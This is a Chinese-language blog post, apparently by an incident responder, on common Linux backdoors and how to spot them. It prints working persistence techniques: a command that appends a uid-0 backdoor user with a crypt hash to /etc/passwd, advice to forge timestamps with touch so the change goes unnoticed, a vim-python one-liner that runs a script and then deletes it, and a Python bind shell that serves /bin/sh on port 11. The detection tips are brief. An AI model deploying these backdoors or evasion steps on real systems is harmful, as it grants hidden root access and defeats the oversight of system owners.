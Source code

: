 +++
title = 'Linux常见后门及排查技术'

description = "说实话Linux的样本一点都调不来"

tags = [ "应急响应" ]

date = 2024-11-22T17:49:53+08:00

+++

今天遇到一个清华的现场，从C2取回样本来发现是Linux挖矿的，VT检出是Xhide，由此延伸记录一下。

#### 添加Root权限后门用户

/etc/passwd这个文件包含了系统所有的用户名、ID、登录的shell等信息,这个文件是以分号分隔开的，依次是登录名、密码、用户ID、组ID，用户名、用户的根目录以及登录的shell，其中密码处可以是x(代表加密，存放在/etc/shadow文件中)，也可以直接是加密后的密文，此外用户uid为0代表用户会是root的权限，这个时候我们的目标就是在这个文件中追加一条，一个带有密文且id为0的账号。

关于密码加密我们可以使用下面的命令

```
#密码M0rk
xxx@ubuntu:~/Desktop$ perl -e 'print crypt("M0rk", "AA"). "\n"'
AAhmo1jgYI0HE
```

所以我们最终想要在passwd文件中的条目是这个样子的

```
backdoor:AAhmo1jgYI0HE:0:0:me:/root:/bin/bash
```

append the backdoor to passwd file

```
echo "backdoor:AAhmo1jgYI0HE:0:0:me:/root:/bin/bash">>/etc/passwd
```

注意当我们拥有一个命令执行漏洞或写文件漏洞且为root权限，这个时候就可以通过这种方法直接添加用户。且sshd需要允许root用户远程登录，PermitRootLogin yes

另外需要注意的是修改完文件之后记得修改一下文件的时间戳，防止被发现，可以使用touch命令进行伪造。

优点：简单，缺点：易被检测到，排查：检查/etc/passwd文件是否有异常。

#### vim后门

```
#enter the mal script directory 、execute the script and then remove the script
cd /usr/lib/python2.7/site-packages && $(nohup vim -E -c "pyfile dir.py"> /dev/null 2>&1 &) && sleep 2 && rm -f dir.py
```

此方法适用于安装了vim且安装了python扩展(绝大版本默认安装)的linux系统,至于恶意脚本dir.py的内容可以是任何功能的后门。如python版本的正向后门监听11端口。

```
#from https://www.leavesongs.com/PYTHON/python-shell-backdoor.html
from socket import *
import subprocess
import os, threading, sys, time

if __name__ == "__main__":
        server=socket(AF_INET,SOCK_STREAM)
        server.bind(('0.0.0.0',11))
        server.listen(5)
        print 'waiting for connect'
        talk, addr = server.accept()
        print 'connect from',addr
        proc = subprocess.Popen(["/bin/sh","-i"], stdin=talk,
                stdout=talk, stderr=talk, shell=True)
```
